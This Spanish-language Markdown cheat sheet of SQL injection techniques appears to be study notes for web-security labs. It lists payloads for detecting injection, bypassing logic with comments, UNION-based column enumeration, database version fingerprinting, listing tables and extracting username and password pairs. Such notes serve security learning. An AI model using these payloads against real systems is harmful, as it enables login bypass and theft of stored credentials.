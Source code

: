# SQL INJECTION

## IDENTIFICAR LA VULNERABILIDAD

' | *simbolo comun para testear si existe SQLi o no.*

" | *simbolo comun para testear si existe SQLi o no.*

' -- | *simbolo comun para testear si existe SQLi o no.*

## COMENTARIOS "bypass"

-- | *dentro del lenguaje de SQL query, sirve para comentar de manera que todo lo que este despues de los simbolos, se ignora.* \
ex: SELECT [columns] FROM products WHERE category = 'Gifts'--' AND released = 1

'#' | *dentro del lenguaje de SQL query "#", sirve para comentar de manera que todo lo que este despues del simbolo, se ignora.* \
ex: SELECT [columns] FROM products WHERE category = 'Gifts'#' AND released = 1

## LOGIC BYPASS 

' OR 1=1-- | *sirve para crear una consulta a un resultado booleano, de manera que el inicio de la consulta es leido, el resto no ya que
es siempre TRUE.* \
ex: SELECT [columns] FROM products WHERE category = 'Gifts' OR 1=1-- AND released = 1

USER-- | *cuando se tiene un usuario se podria probar la vulnerabilidad tratando de ver si hace bypass sin ingresar la contrasena.*

## UNION ATTACK

**PRE-REQ:** *numero de columnas y data type de cada columna*

#### COMO SABER EL NUMERO DE COLUMNAS ?

**METODO_1:** ' ORDER BY 1-- \
**METODO_2:** ' UNION SELECT NULL--

#### COMO SABER EL DATA TYPE DE UNA COLUMNA ?

> Microsoft, MySQL & PostgreSQL

' UNION SELECT 'a',NULL,NULL,NULL-- \
' UNION SELECT NULL,'a',NULL,NULL-- | >> *se tiene que hacer iterativo cambiando los campos para saber que tipo son.*

> Oracle

' UNION SELECT 'a','a' from DUAL--

#### IDENTIFICAR INFORMACION DEL MOTOR DE BASE DE DATOS [TIPO/VERSION] 

**Microsoft** >> SELECT @@version \
**MySQL** >> SELECT @@version \
**Oracle** >> SELECT banner FROM v$version | SELECT version FROM v$instance \
**PostgreSQL** >> SELECT version() 

#### LISTAR TABLAS DE LA BASE DE DATOS | [[Microsoft](https://learn.microsoft.com/en-us/sql/relational-databases/system-information-schema-views/tables-transact-sql?view=sql-server-ver16) | [MySQL](https://dev.mysql.com/doc/refman/8.0/en/information-schema-table-reference.html) | [PostgreSQL](https://www.postgresql.org/docs/current/infoschema-tables.html)] 

'UNION SELECT [columns] FROM information_schema.tables \
'UNION SELECT [columns] FROM information_schema.columns \
'UNION SELECT [columns] FROM information_schema.columns WHERE table_name = 'users_qmwbqm' 

#### LISTAR TABLAS DE LA BASE DE DATOS | [[Oracle](https://docs.oracle.com/en/database/oracle/oracle-database/19/refrn/ALL_TABLES.html)] 

'UNION SELECT [columns] FROM all_tables \
'UNION SELECT [columns] FROM all_tab_columns WHERE table_name = 'USERS' 

#### MOSTRAR INFORMACION DE OTRAS TABLAS 

' UNION SELECT username, password FROM users--

#### MOSTRAR MULTIPLES VALORES EN UNA MISMA COLUMNA [CONCATENACION]

> NOTA: importante definir la columna que sea formato string.

~: separador

ORACLE: || \
ex: 'string'||'string' \
' UNION SELECT username || '~' || password FROM users-- 

MICROSOFT: + \
ex: 'string'+'string' 

POSTGRESQL: || \
ex: 'string'||'string' 

MySQL: [ ] "space" \
ex: 'string' 'string'



